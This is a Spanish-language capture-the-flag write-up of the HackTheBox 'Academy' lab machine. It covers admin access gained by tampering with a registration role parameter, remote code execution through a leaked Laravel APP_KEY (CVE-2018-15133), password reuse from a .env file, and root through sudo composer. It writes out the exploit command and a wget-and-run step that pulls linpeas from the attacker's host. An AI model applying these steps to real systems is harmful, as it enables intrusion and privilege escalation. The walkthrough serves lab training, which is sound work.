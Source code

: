 En proceso 24/08/2022
# ACADEMY 

![Academy](https://user-images.githubusercontent.com/87484792/186432393-eb7af503-7ecd-438a-928b-1cd0cb754b90.png)

## Datos de interés 

**Academy** es una máquina que fue diseñada para publicitar la academia oficial de HackTheBox. **Academy** es una buena máquina y muy entretenida.
Empezaremos con un panel de registro muy parecido al de HackTheBox, tras modificar un parametro del registro podemos iniciar como una cuenta Admin.
Descubriremos un subdominio que tras la explotación de una deserializacion en Lavarel obtendremos una shell gracias a RCE. Encontraremos una contraseña de usuario en un archivo *.env*, dicho usuario tendrá permisos de ADM por lo que podremos leer archivos de log, en ellos encontramos un inicio de sesión que nos permitirá un movimiento lateral a otro user del sistema. Dicho usuario contrendrá permisos de SUDO ante un binario vulnerable que nos otorgará acceso como root.

## Enumeración

`sudo nmap --min-rate 5000 -p- -vvv -sSCV -Pn -n -oN openPorts.txt 10.10.10.215` 

![image](https://user-images.githubusercontent.com/87484792/186436105-73f78571-10c3-4bd5-950c-c8aea3b7a3bb.png)

La enumeración con NMAP nos muestra tres puertos abiertos por TCP:

- 22 (SSH)
- 80 (HTTP)
- 33060 (MySqlx)

Como vemos en la enumeración, el puerto 80 nos redigirá a un dominio virtualizado **academy.htb**. Viendo esto, añadiremos este dominio a nuestro /etc/hosts

`10.10.10.215    academy.htb`

Hecho esto, veremos el contenido de la pagina. 

![image](https://user-images.githubusercontent.com/87484792/186438999-9624a08f-2a11-45b1-9f2a-9b28f9f506df.png)

En ella encontramos unicamente un *Login* y un *Register* 
Como no tengo ninguna credencial válida, iré a registrarme. Podriamos probar credenciales comunes pero ya adelanto que no servirá. 

![image](https://user-images.githubusercontent.com/87484792/186457342-4fe2fca4-9bda-4422-aafd-3907ac18ec52.png)

En el panel de Register me registro con `admin2:admin2`, parece funcional y tiene pinta de que puedo loguearme con estas credenciales.

![image](https://user-images.githubusercontent.com/87484792/186491032-732cb7aa-c711-451b-a8f7-34bf7c8a578d.png)


El panel de login me redirige a este home.php que emula a HackTheBox. Como podemos ver los links estan capados para no dirigir a ningún lado, así que por lo que parece esto es un rabbit hole, o al menos, no es un camino útil. Podemos fuzzear a ver si encontramos algo en el panel principal, todos los archivos parecen ser *.php* así que fuzearemos con esta extensión.

![image](https://user-images.githubusercontent.com/87484792/186491864-25383487-fab4-4f74-8c53-b3e64ecde121.png)

**admin.php** me llama muchisimo la atención. Echemos un ojo.

![image](https://user-images.githubusercontent.com/87484792/186492096-a13675cf-7315-4111-b838-c6c1f2eb2074.png)

## Shell www-data

Al parecer es otro login, pero como se puede ver en el titulo, es un login de cuentas administradores.
Podiamos intentar buscar las credenciales, o bruteforcearlo, pero antes de todo.. echemos un ojo al comportamiento de la web cuando registramos una cuenta nueva.
Utilizaremos BurpSuite para enviar las request a traves de un proxy, en él, visualizaremos la data que enviamos.

![image](https://user-images.githubusercontent.com/87484792/186492718-7f9b21c1-ac7c-4293-9c42-81e046afe846.png)

**roleid** parece ser un controlador que asigna a la cuenta un "Rol". El valor inicial es un 0, pero... ¿que pasa si lo cambiamos de valor? en este caso un 1.
La creación de la cuenta es exitosa, y al probarlo en el admin.php nos da como resultado el poder adentrarnos en una "lista/tabla de tareas"

![image](https://user-images.githubusercontent.com/87484792/186493573-fa1110cb-2096-487b-9409-65cab9fe9274.png)

Tenemos un subdominio nuevo que seria muy raro que pudiesemos encontrar en un diccionario común, así que agregemoslo al */etc/hosts*

Tras ingresar en él, podemos ver que estamos antes Laravel, linkeos de rutas absolutas y algo muy interesante. **APP_KEY** se nos muestra en los archivos de configuración. En Laravel Framework hasta 5.5.40 y 5.6.x hasta 5.6.29, la ejecución remota de código puede ocurrir como resultado de una llamada de deserialización en un valor X-XSRF-TOKEN potencialmente no confiable, se presenta como CVE-2018-15133 y hay exploits disponibles.

![image](https://user-images.githubusercontent.com/87484792/186663935-bf62f34b-8f0a-426a-a872-970a791bb7a5.png)

Utilizaré algún exploit de Github, no parece muy dificil de utilizar. Tras leer un poco el exploit podemos poner un modo `--interactive` para otorgar una shell en vez de ejecutar un comando especifico. El comando quedaria así:

`python3 pwn_laravel.py http://dev-staging-01.academy.htb/ "dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=" --interactive`

![image](https://user-images.githubusercontent.com/87484792/186666733-7efeb5d1-f52c-4831-b112-899bcc52f3bd.png)

Me mandaré una shell a netcat, haré un tratamiento de la TTY y empezaré a investigar un poco.

## www-data ->  cry0l1t3

Tras lo anterior quedó mejor para trabajar, ahora toca investigar.

En la HOME del user, podemos encontrar la flag.



En la pagina de Laravel veiamos que habia ciertas variables de configuración, estas variables se pueden encontrar en **.env**, donde aparecian usuarios y una contraseña "secreta". Este archivo pertenecia al subdominio encontrado, pero ¿Que pasa si lo buscamos en el academy? 

![image](https://user-images.githubusercontent.com/87484792/186669255-fee56be3-9adf-4258-b7f6-38dd305ea2a5.png)

Encontramos una contraseña, probemos a ver a que usuario pertenece.

![image](https://user-images.githubusercontent.com/87484792/186670048-dbeb3978-78cd-4bfc-af38-fb0fa44234a1.png)

El usuario es cry0l1t3, me conectaré por SSH. 

## cry0l1t3 -> Mrb3n

Lo que normalmente suelo hacer una vez entro como un usuario, es visualizar a que grupos pertenezco. Esto nos da información sobre los privilegios que tenemos sobre el sistema 

![image](https://user-images.githubusercontent.com/87484792/186673917-ae0c889b-0bae-4a81-ad26-c5ef44347ca9.png)

Pertenecemos al grupo **ADM**, este grupo nos permite leer archivos logs en */var/logs/*. Esto es muy bueno porque tenemos la posibilidad de visualizar logs de inicios de sesión. **linpeas** nos ayudará a leer todos los archivos criticos del sistema. Me lo traeré desde mi máquina y lo ejecutaré en la máquina victima.

Máquina atacante:

`python3 -m http.server 80`

Máquina victima: 

```
wget http://ip/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

![image](https://user-images.githubusercontent.com/87484792/186680200-c25e5629-7b9f-42a1-82b1-2a302edebaab.png)

Linpeas encontró un inicio de sesión sobre el usuario mrb3n. `su mrb3n` y entramos a su usuario.

## mrb3n -> root

Una vez dentro de mrb3n, obtenemos una shell en "sh", ejecutamos bash y obtendremos una shell en bash.
Nuevamente me fijo en los grupos asignados al usuario, pero no hay ninguno más alla del propio grupo de usuario.
El siguiente paso que suelo hacer es verificar si tenemos algún permiso de SUDO, en este caso si.

![image](https://user-images.githubusercontent.com/87484792/186684026-334868e9-daa6-47f3-aeb5-16aa3e768d57.png)

Tenemos la posibilidad de ejecutar como cualquier usuario *sudo* el binario composer.

```
Composer es un sistema de gestión de paquetes para programar en PHP el cual provee los formatos estándar necesarios para manejar dependencias y librerías de PHP
```

Hay una pagina llamada **GTFOBins** donde podemos ver si el binario es vulnerable, y como explotarlo, para conseguir una escalada de privilegios.
En este caso es vulnerable, podemos escalar por SUDO, así que seguiremos los pasos.

![image](https://user-images.githubusercontent.com/87484792/186684937-86a89b38-87df-446b-9b17-1f1ffbf1e650.png)

Una vez ejecutado:

![image](https://user-images.githubusercontent.com/87484792/186685900-651947be-8f62-4fdc-a0e5-7b3b5353e4ca.png)

Listo! ya tendriamos acceso como root y podriamos visualizar la flag de root

-------------------------------------------------------------------------------------------------------------------------

Muchas gracias por visualizar mi write up, se agradece respect en HTB :)

¡Happy Hacking! ^_^

Fd: Ly0nt4r



